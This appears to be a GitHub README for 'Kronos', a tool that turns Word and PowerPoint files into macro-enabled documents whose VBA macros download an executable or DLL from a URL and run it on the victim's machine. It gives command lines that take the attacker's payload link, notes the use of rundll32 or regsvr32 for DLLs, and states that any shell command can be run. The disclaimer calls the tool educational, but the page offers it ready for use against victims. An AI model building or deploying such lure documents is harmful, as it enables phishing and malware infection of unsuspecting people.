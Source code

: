 ![!\[Alt text\](<>)](<2023-12-24 10_34_53-Photos.png>)


Greetings
--------------------------

Kronos is a doc and ppt exploitation tool to deliver Payloads via Vba macros by downloding the PE from a URL 

it generates a docm or pptm , if macros disabled by default ,victim needs to enable macros

for an exe use :

python kronos.py -Url 'https://your.link' --word_file 'if you have a docx file' -PE 'name.exe'

for a dll  use : 

python kronos.py -Url 'https://your.link' --word_file 'if you have a docx file' -PE " {rundll32 or regsvr32} {name.dll} ,{function if needed} "

you can also run a ps1 or bat file or any shell cmd

https://github.com/ELMERIKH/Kronos/assets/96123439/e1efc4e7-5b63-4fdc-8076-400eae8b6f85




setup:
------------

git clone https://github.com/ELMERIKH/Kronos

pip install -r requirements.txt

python3 Kronos.py

DISCLAIMER :
----------------------------------

ME The author takes NO responsibility and/or liability for how you choose to use any of the tools/source code/any files provided. ME The author and anyone affiliated with will not be liable for any losses and/or damages in connection with use of Kronos. By using Kronos or any files included, you understand that you are AGREEING TO USE AT YOUR OWN RISK. Once again Kronos is for EDUCATION and/or RESEARCH purposes ONLY.

